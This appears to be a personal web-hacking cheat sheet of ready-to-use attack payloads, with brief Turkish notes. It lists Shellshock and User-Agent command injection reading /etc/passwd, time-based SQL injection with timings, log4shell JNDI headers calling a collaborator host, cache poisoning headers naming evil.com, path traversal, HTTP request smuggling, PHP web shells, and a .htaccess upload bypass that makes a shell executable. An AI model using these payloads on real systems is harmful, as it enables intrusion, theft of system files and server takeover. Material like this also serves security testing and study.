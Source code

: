 # HAND BOOK

User-Agent Command Injection
```
 1))%20or%20sleep(20)--
```
```
'">{{7*7}}${2*2}
```
```
() { : ; }; echo ; /bin/bash -c "cat /etc/passwd"
```

User-Agent SQL Injection
```

```
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
```

log4shell
```
curl --http1.1 --silent --output /dev/null \
--header 'User-agent: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'X-Forwarded-For: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'Referer: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
```

Web Cache Poisoning
```
X-Forwarded-Host: evil.com
X-Host: evil.com
X-Forwarded-Server: evil.com
```


MarkDown
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../../etc/passwd)
```


Chunked diyoruz ve content type ini ayarliyoruz. ayrilmis sorgulari olacagini ve 0 ile de ikinci bir get gonderecegimizi soyluyoruz:
```header
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```


```
data://text/plain;base64,PD9waHAgZWNobygnYWJoaXNoZWttb3JsYTo6OicuIGdldF9jdXJyZW50X3VzZXIoKSAuJzo6OmFiaGlzaGVrbW9ybGEnKTs/Pg==
```

Payload php
```
<?php system($_GET['cmd']); ?>
```
```
<?php echo file_get_contents('/etc/passwd'); ?>
```
```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

Addtype application/x-httpd-php .shell
```

```
Content-Disposition: form-data; name="avatar"; filename="shell.shell"
Content-Type: image/png

<?php system($_GET['cmd']); ?>
```

Smtp Attack
```
  -----------------------------134475172700422922879687252
  Content-Disposition: form-data; name="subject"
  Test
  .
  MAIL FROM: external@domain1.com
  RCPT TO: external@domain1.com
  RCPT TO: external@domain2.com
  RCPT TO: external@domain3.com
  RCPT TO: external@domain4.com
  Data
  This is an example of SMTP Injection attack
  .
  -----------------------------134475172700422922879687252
```
